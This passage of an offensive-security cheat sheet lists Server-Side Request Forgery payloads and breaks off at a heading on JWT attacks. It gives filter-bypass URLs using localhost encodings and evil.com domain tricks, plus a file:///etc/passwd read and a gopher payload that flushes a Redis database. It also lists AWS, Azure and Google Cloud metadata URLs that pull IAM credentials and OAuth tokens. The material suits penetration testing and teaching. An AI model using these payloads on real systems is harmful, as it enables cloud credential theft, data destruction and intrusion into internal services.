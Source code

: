 #### **Advanced SSRF Techniques**

**Bypass Filters and Restrictions:**
```bash
# IP address bypasses
http://127.0.0.1:8080/admin
http://localhost:8080/admin
http://0.0.0.0:8080/admin
http://[::1]:8080/admin
http://2130706433:8080/admin  # Decimal format of 127.0.0.1

# Domain bypasses
http://evil.com@127.0.0.1:8080/admin
http://127.0.0.1.evil.com:8080/admin
http://whitelisted-domain.com.evil.com:8080/admin

# Protocol bypasses
file:///etc/passwd
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a
dict://127.0.0.1:6379/info
ftp://127.0.0.1:21/
ldap://127.0.0.1:389/

# DNS rebinding
http://rebinding.attack.com  # Resolves to internal IP after DNS TTL expires
```

**Cloud Metadata Exploitation:**
```bash
# AWS metadata
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://169.254.169.254/latest/user-data/

# Azure metadata
http://169.254.169.254/metadata/instance?api-version=2017-08-01
http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/

# Google Cloud metadata
http://metadata.google.internal/computeMetadata/v1/
http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token
```

---

## 🔐 Advanced Authentication and Authorization Attacks

### 🎫 Advanced Session Management Attacks

#### **JWT (JSON Web Token) Exploitation**
